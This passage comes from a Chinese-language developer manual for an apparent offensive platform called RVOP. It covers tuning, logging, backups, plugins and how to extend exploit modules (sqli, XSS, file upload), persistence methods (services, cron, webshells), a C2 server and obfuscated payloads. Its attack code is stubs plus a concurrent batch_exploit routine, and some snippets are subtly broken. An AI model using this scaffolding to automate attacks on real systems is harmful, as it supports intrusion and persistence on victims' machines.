1. 监控内存使用
   ps aux | grep python

2. 限制数据库连接池
   from sqlalchemy import create_engine
   engine = create_engine('sqlite:///rvop.db', pool_size=5)

3. 定期清理数据
   platform.cleanup_old_data(keep_days=30)
```

#### 2. 响应缓慢

```python
# 问题：API响应慢
# 解决：
1. 启用缓存
   from functools import lru_cache
   @lru_cache(maxsize=128)
   def get_cached_data(key):
       return expensive_operation(key)

2. 优化数据库查询
   # 使用索引
   CREATE INDEX idx_agents_agent_id ON agents(agent_id)

3. 增加并发处理
   app.router.add_get('/api/data', handler, name='data')
```

#### 3. 网络延迟

```python
# 问题：网络超时
# 解决：
1. 调整超时设置
   import aiohttp
   timeout = aiohttp.ClientTimeout(total=60)

2. 使用连接池
   connector = aiohttp.TCPConnector(limit=100)
   session = aiohttp.ClientSession(connector=connector)

3. 实现重试机制
   async def with_retry(func, max_retries=3, delay=1):
       for i in range(max_retries):
           try:
               return await func()
           except Exception as e:
               if i == max_retries - 1:
                   raise e
               await asyncio.sleep(delay * (i + 1))
```

### 日志分析

#### 1. 日志配置

```python
# 配置详细日志
LOGGING_CONFIG = {
    'version': 1,
    'disable_existing_loggers': False,
    'formatters': {
        'detailed': {
            'format': '[%(asctime)s] [%(levelname)s] [%(name)s:%(lineno)d] %(message)s'
        },
        'simple': {
            'format': '[%(levelname)s] %(message)s'
        }
    },
    'handlers': {
        'file': {
            'level': 'DEBUG',
            'class': 'logging.handlers.RotatingFileHandler',
            'filename': 'logs/rvop.log',
            'maxBytes': 10485760,  # 10MB
            'backupCount': 5,
            'formatter': 'detailed'
        },
        'console': {
            'level': 'INFO',
            'class': 'logging.StreamHandler',
            'formatter': 'simple'
        }
    },
    'loggers': {
        'rvop': {
            'handlers': ['file', 'console'],
            'level': 'DEBUG',
            'propagate': False
        }
    }
}
```

#### 2. 日志分析工具

```bash
# 分析错误日志
grep "ERROR\|CRITICAL" logs/rvop.log | tail -20

# 分析性能日志
grep "PERFORMANCE" logs/rvop.log | sort -k4 -n

# 分析访问日志
awk '{print $1}' logs/c2_server.log | sort | uniq -c | sort -nr

# 分析攻击成功率
grep "EXPLOIT_SUCCESS" logs/exploitation.log | wc -l
grep "EXPLOIT_FAILED" logs/exploitation.log | wc -l
```

#### 3. 性能监控

```python
# 性能监控装饰器
import time
from functools import wraps

def monitor_performance(func):
    @wraps(func)
    async def wrapper(*args, **kwargs):
        start_time = time.time()
        result = await func(*args, **kwargs)
        end_time = time.time()

        duration = end_time - start_time
        logger.info(f"{func.__name__} executed in {duration:.2f} seconds")

        # 性能预警
        if duration > 10.0:
            logger.warning(f"Slow operation detected: {func.__name__} took {duration:.2f}s")

        return result
    return wrapper

# 使用示例
@monitor_performance
async def perform_exploit(target, module):
    # 攻击逻辑
    pass
```

### 备份与恢复

#### 1. 配置备份

```bash
# 备份配置文件
tar -czf backup/rvop_config_$(date +%Y%m%d).tar.gz \
  config/*.json \
  config/*.yaml \
  deploy.py

# 备份数据库
sqlite3 rvop.db ".backup backup/rvop_db_$(date +%Y%m%d).db"

# 备份日志
tar -czf backup/logs_$(date +%Y%m%d).tar.gz logs/

# 自动备份脚本
#!/bin/bash
BACKUP_DIR="/backup/rvop"
DATE=$(date +%Y%m%d_%H%M%S)

mkdir -p $BACKUP_DIR

tar -czf $BACKUP_DIR/config_$DATE.tar.gz config/
sqlite3 rvop.db ".backup $BACKUP_DIR/db_$DATE.db"
tar -czf $BACKUP_DIR/logs_$DATE.tar.gz logs/

# 保留最近30天的备份
find $BACKUP_DIR -name "*.tar.gz" -mtime +30 -delete
find $BACKUP_DIR -name "*.db" -mtime +30 -delete
```

#### 2. 灾难恢复

```bash
# 恢复步骤
#!/bin/bash

echo "开始RVOP平台恢复..."

# 1. 停止服务
./stop.sh

# 2. 恢复配置
tar -xzf backup/rvop_config_20240101.tar.gz -C /
cp config/*.json ./
cp config/*.yaml ./

# 3. 恢复数据库
sqlite3 rvop.db < backup/rvop_db_20240101.db

# 4. 恢复日志
tar -xzf backup/logs_20240101.tar.gz -C /

# 5. 重新启动
./start.sh

echo "恢复完成"
```

---

## ⚡ 性能优化

### 系统优化

#### 1. 内存优化

```python
# 对象池管理
class ObjectPool:
    def __init__(self, factory, max_size=10):
        self.factory = factory
        self.max_size = max_size
        self.pool = []
        self.lock = asyncio.Lock()

    async def get(self):
        async with self.lock:
            if self.pool:
                return self.pool.pop()
            return self.factory()

    async def put(self, obj):
        async with self.lock:
            if len(self.pool) < self.max_size:
                self.pool.append(obj)
                return True
            return False

# 使用示例
session_pool = ObjectPool(
    lambda: aiohttp.ClientSession(),
    max_size=20
)

async def get_session():
    return await session_pool.get()

async def return_session(session):
    await session_pool.put(session)
```

#### 2. 数据库优化

```python
# 连接池配置
from sqlalchemy import create_engine
from sqlalchemy.orm import sessionmaker

engine = create_engine(
    'sqlite:///rvop.db',
    pool_size=10,
    max_overflow=20,
    pool_pre_ping=True,
    pool_recycle=3600
)

SessionLocal = sessionmaker(
    autocommit=False,
    autoflush=False,
    bind=engine
)

# 查询优化
@lru_cache(maxsize=1024)
def get_cached_agent_status(agent_id):
    """缓存代理状态"""
    session = SessionLocal()
    try:
        agent = session.query(Agent).filter(Agent.agent_id == agent_id).first()
        return agent.status if agent else None
    finally:
        session.close()

# 批量操作
def bulk_update_tasks(tasks_data):
    """批量更新任务"""
    session = SessionLocal()
    try:
        session.bulk_update_mappings(Task, tasks_data)
        session.commit()
    finally:
        session.close()
```

#### 3. 网络优化

```python
# 连接池配置
import aiohttp

class ConnectionPool:
    def __init__(self, max_connections=100):
        self.connector = aiohttp.TCPConnector(
            limit=max_connections,
            limit_per_host=10,
            ttl_dns_cache=300,
            use_dns_cache=True,
            keepalive_timeout=60
        )
        self.session = None

    async def get_session(self):
        if self.session is None:
            self.session = aiohttp.ClientSession(connector=self.connector)
        return self.session

    async def close(self):
        if self.session:
            await self.session.close()
            self.session = None

# 使用连接池
async def make_request(url):
    pool = ConnectionPool()
    session = await pool.get_session()

    try:
        async with session.get(url, timeout=30) as response:
            return await response.text()
    except Exception as e:
        logger.error(f"Request failed: {e}")
        return None
    finally:
        await pool.close()
```

### 应用优化

#### 1. 异步优化

```python
# 异步任务队列
import asyncio
from concurrent.futures import ThreadPoolExecutor

class AsyncTaskQueue:
    def __init__(self, max_workers=5):
        self.max_workers = max_workers
        self.executor = ThreadPoolExecutor(max_workers=max_workers)
        self.task_queue = asyncio.Queue()
        self.workers = []

    async def start(self):
        """启动工作线程"""
        for _ in range(self.max_workers):
            worker = asyncio.create_task(self._worker())
            self.workers.append(worker)

    async def _worker(self):
        """工作线程"""
        while True:
            task_func, args, kwargs = await self.task_queue.get()
            try:
                loop = asyncio.get_event_loop()
                result = await loop.run_in_executor(
                    self.executor,
                    lambda: task_func(*args, **kwargs)
                )
                task_func._result = result
            except Exception as e:
                task_func._error = e
            finally:
                self.task_queue.task_done()

    async def submit(self, task_func, *args, **kwargs):
        """提交任务"""
        await self.task_queue.put((task_func, args, kwargs))
        return task_func

    async def stop(self):
        """停止工作线程"""
        for _ in range(self.max_workers):
            await self.task_queue.put((None, None, None))

        await asyncio.gather(*self.workers)
        self.executor.shutdown()

# 使用示例
async def process_exploit(target, module):
    """处理攻击任务"""
    result = await framework.execute_exploit(target, module)
    return result

# 创建任务队列
task_queue = AsyncTaskQueue(max_workers=10)
await task_queue.start()

# 提交任务
task = await task_queue.submit(process_exploit, "http://target.com", "sqli")
```

#### 2. 缓存优化

```python
# 多层缓存
import hashlib
import json
from functools import lru_cache
from datetime import datetime, timedelta

class MultiLevelCache:
    def __init__(self):
        self.memory_cache = {}
        self.disk_cache_dir = "cache"
        self.ttl = timedelta(hours=1)

        # 确保缓存目录存在
        os.makedirs(self.disk_cache_dir, exist_ok=True)

    def _get_cache_key(self, key):
        """生成缓存键"""
        return hashlib.md5(str(key).encode()).hexdigest()

    def _get_file_path(self, cache_key):
        """获取缓存文件路径"""
        return os.path.join(self.disk_cache_dir, f"{cache_key}.json")

    def _is_expired(self, timestamp):
        """检查缓存是否过期"""
        return datetime.now() - timestamp > self.ttl

    def get(self, key):
        """获取缓存"""
        cache_key = self._get_cache_key(key)

        # 1. 先查内存缓存
        if cache_key in self.memory_cache:
            data, timestamp = self.memory_cache[cache_key]
            if not self._is_expired(timestamp):
                return data
            else:
                del self.memory_cache[cache_key]

        # 2. 查磁盘缓存
        file_path = self._get_file_path(cache_key)
        if os.path.exists(file_path):
            try:
                with open(file_path, 'r') as f:
                    cache_data = json.load(f)
                    data = cache_data['data']
                    timestamp = datetime.fromisoformat(cache_data['timestamp'])

                    if not self._is_expired(timestamp):
                        # 更新内存缓存
                        self.memory_cache[cache_key] = (data, timestamp)
                        return data
                    else:
                        # 删除过期缓存
                        os.remove(file_path)
            except Exception as e:
                logger.error(f"Cache read error: {e}")

        return None

    def set(self, key, value):
        """设置缓存"""
        cache_key = self._get_cache_key(key)
        timestamp = datetime.now()

        # 设置内存缓存
        self.memory_cache[cache_key] = (value, timestamp)

        # 设置磁盘缓存
        file_path = self._get_file_path(cache_key)
        cache_data = {
            'key': key,
            'data': value,
            'timestamp': timestamp.isoformat()
        }

        try:
            with open(file_path, 'w') as f:
                json.dump(cache_data, f)
        except Exception as e:
            logger.error(f"Cache write error: {e}")

    def clear(self):
        """清理缓存"""
        self.memory_cache.clear()

        # 清理磁盘缓存
        for filename in os.listdir(self.disk_cache_dir):
            file_path = os.path.join(self.disk_cache_dir, filename)
            if os.path.isfile(file_path):
                os.remove(file_path)

# 使用示例
cache = MultiLevelCache()

# 缓存攻击结果
def cache_exploit_result(target, module, result):
    key = f"{target}_{module}_{datetime.now().strftime('%Y%m%d')}"
    cache.set(key, result)

# 获取缓存结果
def get_cached_exploit_result(target, module):
    key = f"{target}_{module}_{datetime.now().strftime('%Y%m%d')}"
    return cache.get(key)
```

#### 3. 并发控制

```python
# 信号量控制
import asyncio
from contextlib import asynccontextmanager

class ConcurrencyLimiter:
    def __init__(self, max_concurrent=10):
        self.max_concurrent = max_concurrent
        self.semaphore = asyncio.Semaphore(max_concurrent)
        self.active_tasks = 0
        self.task_queue = asyncio.Queue()

    @asynccontextmanager
    async def limit(self):
        """并发限制上下文管理器"""
        async with self.semaphore:
            self.active_tasks += 1
            try:
                yield
            finally:
                self.active_tasks -= 1

    async def execute(self, coro):
        """执行协程"""
        async with self.limit():
            return await coro

    async def execute_with_timeout(self, coro, timeout=30):
        """带超时的执行"""
        try:
            return await asyncio.wait_for(self.execute(coro), timeout=timeout)
        except asyncio.TimeoutError:
            logger.warning(f"Task timed out")
            return None

# 使用示例
limiter = ConcurrencyLimiter(max_concurrent=5)

async def safe_exploit(target, module):
    """安全的攻击执行"""
    return await limiter.execute_with_timeout(
        framework.execute_exploit(target, module),
        timeout=60
    )

# 批量执行
async def batch_exploit(targets, modules):
    """批量攻击"""
    tasks = []
    for target in targets:
        for module in modules:
            task = safe_exploit(target, module)
            tasks.append(task)

    results = await asyncio.gather(*tasks, return_exceptions=True)
    return results
```

### 监控优化

#### 1. 性能监控

```python
# 性能监控装饰器
import time
import psutil
from functools import wraps
from dataclasses import dataclass

@dataclass
class PerformanceMetrics:
    function_name: str
    execution_time: float
    memory_usage: float
    cpu_usage: float
    timestamp: datetime

def monitor_performance(func):
    """性能监控装饰器"""
    @wraps(func)
    async def wrapper(*args, **kwargs):
        # 获取初始指标
        process = psutil.Process()
        start_time = time.time()
        start_memory = process.memory_info().rss / 1024 / 1024  # MB
        start_cpu = process.cpu_percent()

        try:
            # 执行函数
            result = await func(*args, **kwargs)

            # 获取结束指标
            end_time = time.time()
            end_memory = process.memory_info().rss / 1024 / 1024
            end_cpu = process.cpu_percent()

            # 计算指标
            execution_time = end_time - start_time
            memory_usage = end_memory - start_memory
            cpu_usage = end_cpu - start_cpu

            # 记录指标
            metrics = PerformanceMetrics(
                function_name=func.__name__,
                execution_time=execution_time,
                memory_usage=memory_usage,
                cpu_usage=cpu_usage,
                timestamp=datetime.now()
            )

            logger.info(f"Performance metrics for {func.__name__}:")
            logger.info(f"  Execution time: {execution_time:.2f}s")
            logger.info(f"  Memory usage: {memory_usage:.2f}MB")
            logger.info(f"  CPU usage: {cpu_usage:.2f}%")

            # 性能预警
            if execution_time > 10.0:
                logger.warning(f"Slow operation: {func.__name__} took {execution_time:.2f}s")
            if memory_usage > 100.0:
                logger.warning(f"High memory usage: {func.__name__} used {memory_usage:.2f}MB")

            return result

        except Exception as e:
            logger.error(f"Performance monitoring error for {func.__name__}: {e}")
            raise

    return wrapper

# 使用示例
@monitor_performance
async def perform_complex_attack(target, payload):
    """执行复杂攻击"""
    # 攻击逻辑
    result = await framework.execute_exploit(target, payload)
    return result
```

#### 2. 健康检查

```python
# 健康检查系统
class HealthChecker:
    def __init__(self):
        self.checks = {}
        self.status = {"status": "healthy", "checks": {}}
        self.last_check = datetime.now()

    def register_check(self, name, check_func, interval=60):
        """注册健康检查"""
        self.checks[name] = {
            'func': check_func,
            'interval': interval,
            'last_run': None,
            'last_result': None
        }

    async def run_check(self, name):
        """运行单个检查"""
        if name not in self.checks:
            return False

        check = self.checks[name]

        try:
            result = await check['func']()
            check['last_result'] = result
            check['last_run'] = datetime.now()
            return result
        except Exception as e:
            logger.error(f"Health check {name} failed: {e}")
            check['last_result'] = {"status": "error", "message": str(e)}
            check['last_run'] = datetime.now()
            return False

    async def run_all_checks(self):
        """运行所有检查"""
        all_healthy = True

        for name in self.checks:
            result = await self.run_check(name)
            if not result:
                all_healthy = False

        self.status["status"] = "healthy" if all_healthy else "unhealthy"
        self.status["checks"] = {
            name: check['last_result']
            for name, check in self.checks.items()
        }
        self.last_check = datetime.now()

        return all_healthy

    def get_status(self):
        """获取状态"""
        return self.status

# 健康检查函数
async def check_c2_server():
    """检查C2服务器状态"""
    try:
        response = await session.get("http://localhost:8080/api/agents", timeout=5)
        return response.status == 200
    except Exception:
        return False

async def check_database():
    """检查数据库连接"""
    try:
        session = SessionLocal()
        session.execute("SELECT 1")
        session.close()
        return True
    except Exception:
        return False

async def check_memory_usage():
    """检查内存使用"""
    process = psutil.Process()
    memory_percent = process.memory_percent()
    return memory_percent < 90.0  # 小于90%认为正常

# 使用示例
health_checker = HealthChecker()
health_checker.register_check("c2_server", check_c2_server, interval=30)
health_checker.register_check("database", check_database, interval=60)
health_checker.register_check("memory", check_memory_usage, interval=10)

# 定期健康检查
async def periodic_health_check():
    while True:
        await health_checker.run_all_checks()
        await asyncio.sleep(60)
```

---

## 🚀 扩展开发

### 添加新的利用模块

#### 1. 创建利用模块

```python
# 新建文件：rvop/exploits/new_module.py
from abc import ABC, abstractmethod
from typing import Dict, Any, Optional
from dataclasses import dataclass

@dataclass
class ExploitResult:
    success: bool
    result: str
    output: str
    error: str = ""

class BaseExploitModule(ABC):
    """利用模块基类"""

    def __init__(self, name: str, description: str, risk_level: str = "medium"):
        self.name = name
        self.description = description
        self.risk_level = risk_level
        self.enabled = True

    @abstractmethod
    async def execute(self, target: str, parameters: Dict[str, Any]) -> ExploitResult:
        """执行攻击"""
        pass

    @abstractmethod
    def get_payloads(self, target_info: Dict[str, Any]) -> list:
        """获取可用载荷"""
        pass

    async def detect_vulnerability(self, target: str) -> bool:
        """检测漏洞是否存在"""
        # 实现漏洞检测逻辑
        return False

class NewExploitModule(BaseExploitModule):
    """新的利用模块示例"""

    def __init__(self):
        super().__init__(
            name="新型漏洞利用",
            description="针对新型漏洞的利用方法",
            risk_level="high"
        )

    async def execute(self, target: str, parameters: Dict[str, Any]) -> ExploitResult:
        """执行攻击"""
        try:
            # 实现攻击逻辑
            result = await self._perform_attack(target, parameters)

            return ExploitResult(
                success=result['success'],
                result=result['result'],
                output=result['output']
            )
        except Exception as e:
            return ExploitResult(
                success=False,
                result="",
                output="",
                error=str(e)
            )

    def get_payloads(self, target_info: Dict[str, Any]) -> list:
        """获取可用载荷"""
        return [
            {
                'name': 'payload1',
                'description': '载荷1描述',
                'parameters': {'param1': 'value1'},
                'risk_level': 'high'
            }
        ]

    async def _perform_attack(self, target: str, parameters: Dict[str, Any]) -> Dict:
        """执行具体攻击"""
        # 这里实现具体的攻击逻辑
        return {
            'success': True,
            'result': '攻击成功',
            'output': '目标漏洞已利用'
        }
```

#### 2. 注册利用模块

```python
# 在 exploitation_framework.py 中注册新模块
from exploits.new_module import NewExploitModule

class ExploitationFramework:
    def __init__(self, max_concurrent: int = 5):
        self.max_concurrent = max_concurrent
        self.exploit_modules: Dict[str, BaseExploitModule] = {}
        self._load_modules()

    def _load_modules(self):
        """加载所有利用模块"""
        # 加载内置模块
        self.exploit_modules['sqli'] = SQLInjectionModule()
        self.exploit_modules['file_upload'] = FileUploadModule()
        self.exploit_modules['xss'] = XSSModule()

        # 加载新模块
        self.exploit_modules['new_module'] = NewExploitModule()

    def register_module(self, name: str, module: BaseExploitModule):
        """注册自定义模块"""
        self.exploit_modules[name] = module
        logger.info(f"Registered exploit module: {name}")

    def get_module(self, name: str) -> Optional[BaseExploitModule]:
        """获取模块"""
        return self.exploit_modules.get(name)
```

### 添加新的持久化方法

#### 1. 创建持久化方法

```python
# 新建文件：rvop/persistence/new_method.py
from abc import ABC, abstractmethod
from typing import Dict, Any, Optional

class BasePersistenceMethod(ABC):
    """持久化方法基类"""

    def __init__(self, name: str, description: str, platform: str, risk_level: str):
        self.name = name
        self.description = description
        self.platform = platform
        self.risk_level = risk_level
        self.enabled = True

    @abstractmethod
    async def create(self, target_info: Dict[str, Any], options: Dict[str, Any]) -> str:
        """创建持久化"""
        pass

    @abstractmethod
    async def remove(self, persistence_id: str) -> bool:
        """移除持久化"""
        pass

    @abstractmethod
    async def detect(self, target_info: Dict[str, Any]) -> bool:
        """检测持久化是否存在"""
        pass

    @abstractmethod
    def validate_options(self, options: Dict[str, Any]) -> bool:
        """验证选项参数"""
        pass

class NewPersistenceMethod(BasePersistenceMethod):
    """新型持久化方法示例"""

    def __init__(self):
        super().__init__(
            name="新型持久化",
            description="新型持久化方法",
            platform="multi",
            risk_level="medium"
        )

    async def create(self, target_info: Dict[str, Any], options: Dict[str, Any]) -> str:
        """创建持久化"""
        if not self.validate_options(options):
            raise ValueError("Invalid options")

        # 实现创建逻辑
        persistence_id = f"new_persistence_{int(time.time())}"

        # 这里实现具体的持久化创建逻辑
        # 例如：创建注册表项、服务、计划任务等

        return persistence_id

    async def remove(self, persistence_id: str) -> bool:
        """移除持久化"""
        try:
            # 实现移除逻辑
            return True
        except Exception:
            return False

    async def detect(self, target_info: Dict[str, Any]) -> bool:
        """检测持久化是否存在"""
        # 实现检测逻辑
        return False

    def validate_options(self, options: Dict[str, Any]) -> bool:
        """验证选项参数"""
        required_fields = ['name', 'path']
        return all(field in options for field in required_fields)
```

#### 2. 注册持久化方法

```python
# 在 persistence_manager.py 中注册新方法
from persistence.new_method import NewPersistenceMethod

class PersistenceManager:
    def __init__(self, database_path: str = "persistence.db"):
        self.database_path = database_path
        self.targets: Dict[str, TargetHost] = {}
        self.persistence_methods: Dict[str, BasePersistenceMethod] = {}
        self.session = aiohttp.ClientSession()
        self._load_methods()

    def _load_methods(self):
        """加载所有持久化方法"""
        # 加载内置方法
        self.persistence_methods['windows_service'] = WindowsServiceMethod()
        self.persistence_methods['cron_job'] = CronJobMethod()
        self.persistence_methods['webshell'] = WebshellMethod()

        # 加载新方法
        self.persistence_methods['new_method'] = NewPersistenceMethod()

    def register_method(self, name: str, method: BasePersistenceMethod):
        """注册自定义持久化方法"""
        self.persistence_methods[name] = method
        logger.info(f"Registered persistence method: {name}")
```

### 添加新的载荷类型

#### 1. 创建载荷生成器

```python
# 在 payload_generator.py 中添加新载荷类型
class PayloadGenerator:
    def __init__(self, output_dir: str = "payloads"):
        self.output_dir = output_dir
        self.payloads_dir = os.path.join(output_dir, "generated")
        self.templates_dir = os.path.join(output_dir, "templates")
        self.init_templates()

    def generate_new_payload(self, options: Dict[str, Any]) -> str:
        """生成新型载荷"""
        # 根据选项生成载荷
        template = self._get_template('new_payload_template.txt')

        # 填充模板
        payload = template.format(
            options.get('command', 'echo "test"'),
            options.get('timeout', 30)
        )

        # 混淆载荷
        if options.get('obfuscate', False):
            payload = self.obfuscate_payload(payload, 'new_type')

        return payload

    def _get_template(self, template_name: str) -> str:
        """获取载荷模板"""
        template_path = os.path.join(self.templates_dir, template_name)
        with open(template_path, 'r', encoding='utf-8') as f:
            return f.read()

    def obfuscate_payload(self, payload: str, technique: str) -> str:
        """混淆载荷"""
        if technique == 'new_type':
            # 实现新型混淆技术
            return payload.replace(' ', '_').replace('\n', ';')
        return payload
```

### 添加新的API接口

#### 1. 创建API端点

```python
# 在 web_interface.py 中添加新的API端点
class WebInterface:
    def __init__(self, platform: RVOPPlatform, host: str = "0.0.0.0", port: int = 8081):
        self.platform = platform
        self.host = host
        self.port = port
        self.app = None
        self.session_storage = None
        self.jinja_env = None
        self._init_web_app()

    def _setup_routes(self):
        """设置Web路由"""
        # ... 现有路由 ...

        # 添加新的API端点
        self.app.router.add_get('/api/new-endpoint', self.new_api_endpoint)
        self.app.router.add_post('/api/new-operation', self.new_operation)

    async def new_api_endpoint(self, request: Request) -> Response:
        """新的API端点"""
        try:
            # 实现新的API逻辑
            data = await request.json()
            result = await self._process_new_data(data)

            return web.json_response({
                "status": "success",
                "result": result
            })
        except Exception as e:
            logger.error(f"New API endpoint error: {e}")
            return web.json_response({"error": str(e)}, status=500)

    async def new_operation(self, request: Request) -> Response:
        """新的操作接口"""
        try:
            data = await request.json()
            operation_id = await self._perform_new_operation(data)

            return web.json_response({
                "status": "success",
                "operation_id": operation_id
            })
        except Exception as e:
            logger.error(f"New operation error: {e}")
            return web.json_response({"error": str(e)}, status=500)
```

### 创建自定义插件系统

#### 1. 插件接口定义

```python
# 新建文件：rvop/plugins/plugin_base.py
from abc import ABC, abstractmethod
from typing import Dict, Any, Optional

class PluginInterface(ABC):
    """插件接口基类"""

    @abstractmethod
    def get_name(self) -> str:
        """获取插件名称"""
        pass

    @abstractmethod
    def get_version(self) -> str:
        """获取插件版本"""
        pass

    @abstractmethod
    def get_description(self) -> str:
        """获取插件描述"""
        pass

    @abstractmethod
    async def initialize(self, config: Dict[str, Any]) -> bool:
        """初始化插件"""
        pass

    @abstractmethod
    async def execute(self, parameters: Dict[str, Any]) -> Dict[str, Any]:
        """执行插件功能"""
        pass

    @abstractmethod
    async def cleanup(self) -> bool:
        """清理插件资源"""
        pass

    @abstractmethod
    def get_config_schema(self) -> Dict[str, Any]:
        """获取配置模式"""
        pass
```

#### 2. 插件管理器

```python
# 新建文件：rvop/plugins/plugin_manager.py
import os
import importlib.util
from typing import Dict, List, Type, Optional
from pathlib import Path

class PluginManager:
    """插件管理器"""

    def __init__(self, plugin_dir: str = "plugins"):
        self.plugin_dir = Path(plugin_dir)
        self.plugins: Dict[str, PluginInterface] = {}
        self.plugin_configs: Dict[str, Dict[str, Any]] = {}

        # 确保插件目录存在
        self.plugin_dir.mkdir(exist_ok=True)

    def discover_plugins(self) -> List[str]:
        """发现插件"""
        plugin_files = list(self.plugin_dir.glob("*.py"))
        plugin_names = []

        for plugin_file in plugin_files:
            if plugin_file.name.startswith("_"):
                continue

            plugin_name = plugin_file.stem
            try:
                spec = importlib.util.spec_from_file_location(plugin_name, plugin_file)
                if spec and spec.loader:
                    plugin_names.append(plugin_name)
            except Exception as e:
                logger.error(f"Failed to load plugin {plugin_name}: {e}")

        return plugin_names

    def load_plugin(self, plugin_name: str, config: Optional[Dict[str, Any]] = None) -> bool:
        """加载插件"""
        plugin_path = self.plugin_dir / f"{plugin_name}.py"

        if not plugin_path.exists():
            logger.error(f"Plugin {plugin_name} not found")
            return False

        try:
            # 动态导入插件
            spec = importlib.util.spec_from_file_location(plugin_name, plugin_path)
            if not spec or not spec.loader:
                logger.error(f"Failed to load plugin spec: {plugin_name}")
                return False

            module = importlib.util.module_from_spec(spec)
            spec.loader.exec_module(module)

            # 查找插件类
            plugin_class = getattr(module, f"{plugin_name.title()}Plugin", None)
            if not plugin_class or not issubclass(plugin_class, PluginInterface):
                logger.error(f"Invalid plugin class: {plugin_name}")
                return False

            # 创建插件实例
            plugin_instance = plugin_class()

            # 初始化插件
            if config:
                self.plugin_configs[plugin_name] = config
                success = await plugin_instance.initialize(config)
            else:
                success = await plugin_instance.initialize({})

            if success:
                self.plugins[plugin_name] = plugin_instance
                logger.info(f"Plugin loaded: {plugin_name}")
                return True
            else:
                logger.error(f"Plugin initialization failed: {plugin_name}")
                return False

        except Exception as e:
            logger.error(f"Failed to load plugin {plugin_name}: {e}")
            return False

    def unload_plugin(self, plugin_name: str) -> bool:
        """卸载插件"""
        if plugin_name not in self.plugins:
            return False

        try:
            plugin = self.plugins[plugin_name]
            await plugin.cleanup()
            del self.plugins[plugin_name]
            logger.info(f"Plugin unloaded: {plugin_name}")
            return True
        except Exception as e:
            logger.error(f"Failed to unload plugin {plugin_name}: {e}")
            return False

    async def execute_plugin(self, plugin_name: str, parameters: Dict[str, Any]) -> Dict[str, Any]:
        """执行插件"""
        if plugin_name not in self.plugins:
            raise ValueError(f"Plugin {plugin_name} not loaded")

        try:
            plugin = self.plugins[plugin_name]
            return await plugin.execute(parameters)
        except Exception as e:
            logger.error(f"Plugin execution failed: {plugin_name}: {e}")
            raise

    def get_plugin_info(self, plugin_name: str) -> Optional[Dict[str, str]]:
        """获取插件信息"""
        if plugin_name not in self.plugins:
            return None

        plugin = self.plugins[plugin_name]
        return {
            "name": plugin.get_name(),
            "version": plugin.get_version(),
            "description": plugin.get_description()
        }

    def list_plugins(self) -> List[Dict[str, str]]:
        """列出所有插件"""
        return [self.get_plugin_info(name) for name in self.plugins.keys()]
```

#### 3. 示例插件

```python
# 示例插件：plugins/example_plugin.py
from plugins.plugin_base import PluginInterface
from typing import Dict, Any

class ExamplePlugin(PluginInterface):
    """示例插件"""

    def __init__(self):
        self.name = "Example"
        self.version = "1.0.0"
        self.description = "这是一个示例插件"
        self.config = {}

    def get_name(self) -> str:
        return self.name

    def get_version(self) -> str:
        return self.version

    def get_description(self) -> str:
        return self.description

    async def initialize(self, config: Dict[str, Any]) -> bool:
        """初始化插件"""
        self.config = config
        logger.info(f"Example plugin initialized with config: {config}")
        return True

    async def execute(self, parameters: Dict[str, Any]) -> Dict[str, Any]:
        """执行插件功能"""
        # 实现插件功能
        result = {
            "status": "success",
            "message": "Plugin executed successfully",
            "parameters": parameters,
            "config": self.config
        }
        return result

    async def cleanup(self) -> bool:
        """清理插件资源"""
        logger.info("Example plugin cleaned up")
        return True

    def get_config_schema(self) -> Dict[str, Any]:
        """获取配置模式"""
        return {
            "type": "object",
            "properties": {
                "example_param": {
                    "type": "string",
                    "description": "示例参数",
                    "default": "default_value"
                }
            }
        }
```

### 扩展Web界面

#### 1. 自定义模板

```html
<!-- 新建文件：web/templates/custom_template.html -->
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>自定义页面 - RVOP</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 20px;
            background-color: #f5f5f5;
        }
        .container {
            max-width: 1200px;
            margin: 0 auto;
            background-color: white;
            padding: 20px;
            border-radius: 5px;
            box-shadow: 0 2px 4px rgba(0,0,0,0.1);
        }
        .form-group {
            margin-bottom: 15px;
        }
        label {
            display: block;
            margin-bottom: 5px;
            font-weight: bold;
        }
        input, textarea, select {
            width: 100%;
            padding: 8px;
            border: 1px solid #ddd;
            border-radius: 3px;
        }
        button {
            background-color: #007bff;
            color: white;
            padding: 10px 20px;
            border: none;
            border-radius: 3px;
            cursor: pointer;
        }
        button:hover {
            background-color: #0056b3;
        }
        .result {
            margin-top: 20px;
            padding: 10px;
            background-color: #f8f9fa;
            border-left: 4px solid #007bff;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>自定义功能</h1>

        <form id="customForm">
            <div class="form-group">
                <label for="param1">参数1:</label>
                <input type="text" id="param1" name="param1" required>
            </div>

            <div class="form-group">
                <label for="param2">参数2:</label>
                <textarea id="param2" name="param2" rows="4" required></textarea>
            </div>

            <div class="form-group">
                <label for="param3">参数3:</label>
                <select id="param3" name="param3">
                    <option value="option1">选项1</option>
                    <option value="option2">选项2</option>
                    <option value="option3">选项3</option>
                </select>
            </div>

            <button type="submit">执行操作</button>
        </form>

        <div id="result" class="result" style="display: none;">
            <h3>结果:</h3>
            <pre id="resultContent"></pre>
        </div>
    </div>

    <script>
        document.getElementById('customForm').addEventListener('submit', async function(e) {
            e.preventDefault();

            const formData = new FormData(this);
            const data = Object.fromEntries(formData);

            try {
                const response = await fetch('/api/custom-operation', {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify(data)
                });

                const result = await response.json();

                document.getElementById('resultContent').textContent = JSON.stringify(result, null, 2);
                document.getElementById('result').style.display = 'block';
            } catch (error) {
                console.error('Error:', error);
                document.getElementById('resultContent').textContent = '操作失败: ' + error.message;
                document.getElementById('result').style.display = 'block';
            }
        });
    </script>
</body>
</html>
```

#### 2. 添加自定义页面路由

```python
# 在 web_interface.py 中添加自定义路由
class WebInterface:
    def _setup_routes(self):
        """设置Web路由"""
        # ... 现有路由 ...

        # 添加自定义页面路由
        self.app.router.add_get('/custom', self.custom_page)
        self.app.router.add_post('/api/custom-operation', self.custom_operation)

    async def custom_page(self, request: Request) -> Response:
        """自定义页面"""
        template = self.jinja_env.get_template('custom_template.html')
        html = template.render()
        return web.Response(text=html, content_type='text/html')

    async def custom_operation(self, request: Request) -> Response:
        """自定义操作"""
        try:
            data = await request.json()

            # 执行自定义操作
            result = await self._perform_custom_operation(data)

            return web.json_response({
                "status": "success",
                "result": result
            })
